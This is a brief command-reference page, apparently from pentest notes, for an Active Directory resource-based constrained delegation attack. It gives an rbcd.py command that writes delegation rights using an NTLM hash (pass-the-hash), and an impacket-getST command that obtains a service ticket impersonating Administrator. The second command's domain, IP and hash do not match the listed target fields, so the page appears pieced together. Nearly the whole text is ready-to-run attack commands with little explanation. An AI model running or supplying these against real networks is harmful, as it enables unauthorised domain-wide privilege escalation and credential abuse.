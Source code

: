 Command Reference:

Target IP: 10.10.10.1

Domain: test.local

Username: john

Hash: :A9FDFA038C4B75EBC76DC855DD74F0DA

Delegate To: DC01$

Delegate From: EVILCOMPUTER$

```bash
python3 rbcd.py -action write -delegate-to "DC01$" -delegate-from "EVILCOMPUTER$" -dc-ip 10.10.10.1 -hashes :A9FDFA038C4B75EBC76DC855DD74F0DA test.local/john
```

```bash
impacket-getST -spn 'cifs/ws01.reflection.vl' -impersonate Administrator -dc-ip 10.10.150.53 'reflection/ms01$' -hashes :24caaaca48d9bbfc67476b0487e9ef0f
```

